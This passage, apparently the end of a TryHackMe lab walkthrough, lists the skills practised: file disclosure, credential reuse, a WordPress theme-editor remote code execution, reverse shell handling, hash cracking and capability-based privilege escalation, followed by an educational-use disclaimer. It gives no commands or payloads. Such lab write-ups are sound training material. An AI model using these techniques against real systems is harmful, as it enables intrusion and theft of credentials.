| Web | Sensitive file disclosure, base64 decoding, credential reuse |
| Exploitation | WordPress theme-editor RCE, reverse shell handling, TTY upgrades |
| Post-exploitation | Hash cracking, privilege escalation via misconfigured binary capabilities |




---

## Disclaimer

This walkthrough documents work performed on a deliberately vulnerable TryHackMe lab machine for educational purposes. None of the techniques here should be used against systems you do not own or have explicit written permission to test.
